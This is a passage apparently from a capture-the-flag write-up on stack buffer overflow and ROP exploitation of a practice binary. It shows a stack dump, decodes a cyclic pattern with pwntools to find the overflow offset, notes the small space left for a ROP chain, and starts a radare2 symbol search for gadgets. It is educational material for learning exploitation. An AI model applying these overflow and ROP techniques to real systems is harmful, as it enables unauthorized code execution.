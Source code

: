 ```
0x7ffc1f341a08: 0x00007f1fead9fcca      0x00007ffc1f341af8
0x7ffc1f341a18: 0x0000000100000000      0x0000000000400847
0x7ffc1f341a28: 0x00007f1fead9f7d9      0x0000000000000000
0x7ffc1f341a38: 0x2816d8a63d046d56      0x0000000000400760
0x7ffc1f341a48: 0x0000000000000000      0x0000000000000000
0x7ffc1f341a58: 0x0000000000000000      0xd7eee64e1a846d56
0x7ffc1f341a68: 0xd6290d95d7a26d56      0x0000000000000000
0x7ffc1f341a78: 0x0000000000000000      0x0000000000000000
0x7ffc1f341a88: 0x0000000000000001      0x00007ffc1f341af8
0x7ffc1f341a98: 0x00007ffc1f341b08      0x00007f1feb188180
0x7ffc1f341aa8: 0x0000000000000000      0x0000000000000000
0x7ffc1f341ab8: 0x0000000000400760      0x00007ffc1f341af0
0x7ffc1f341ac8: 0x0000000000000000      0x0000000000000000
0x7ffc1f341ad8: 0x000000000040078a      0x00007ffc1f341ae8
```

Notice how the last characters in our buffer on the stack are `0x616161706161616f`.
This means that we only have three memory addresses (0x18 bytes) to work with in our ROP chain.

For the curious, we can translate those bytes from little endian with `pwntools`:

```
$ python3
Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> foo = p64(0x616161706161616f)
>>> foo
b'oaaapaaa'
>>> 
```

Examining our cyclic pattern, we can see that our pattern got truncated just before `qaaa`:

```
$ echo -n aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab | xxd
00000000: 6161 6161 6261 6161 6361 6161 6461 6161  aaaabaaacaaadaaa
00000010: 6561 6161 6661 6161 6761 6161 6861 6161  eaaafaaagaaahaaa
00000020: 6961 6161 6a61 6161 6b61 6161 6c61 6161  iaaajaaakaaalaaa
00000030: 6d61 6161 6e61 6161 6f61 6161 7061 6161  maaanaaaoaaapaaa
00000040: 7161 6161 7261 6161 7361 6161 7461 6161  qaaaraaasaaataaa
00000050: 7561 6161 7661 6161 7761 6161 7861 6161  uaaavaaawaaaxaaa
00000060: 7961 6161 7a61 6162 6261 6162 6361 6162  yaaazaabbaabcaab
00000070: 6461 6162 6561 6162 6661 6162 6761 6162  daabeaabfaabgaab
```

## Treasure Hunting

Let's search for interesting symbols in the the binary with `radare2`:

```
[0x00400760]> is
[Symbols]

nth paddr       vaddr      bind   type   size lib name
――――――――――――――――――――――――――――――――――――――――――――――――――――――
... CONTENT SNIPPED ...
38   0x000009bb 0x004009bb LOCAL  NOTYPE 0        usefulGadgets
... CONTENT SNIPPED ...
```
